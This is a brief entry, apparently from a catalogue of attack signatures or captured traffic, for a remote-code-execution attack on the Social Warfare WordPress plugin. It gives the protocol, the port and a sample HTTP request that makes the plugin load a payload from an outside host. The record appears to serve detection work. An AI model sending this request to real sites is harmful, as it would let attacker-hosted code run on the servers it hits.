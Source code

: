 # Social Warfare Wordpress Plugin RCE

# Protocols:
HTTP

# Ports:
80

# Sample:

```
GET /wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://igetme.pw/payload.txt HTTP/1.1
Host: igetme.wtf
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0

```
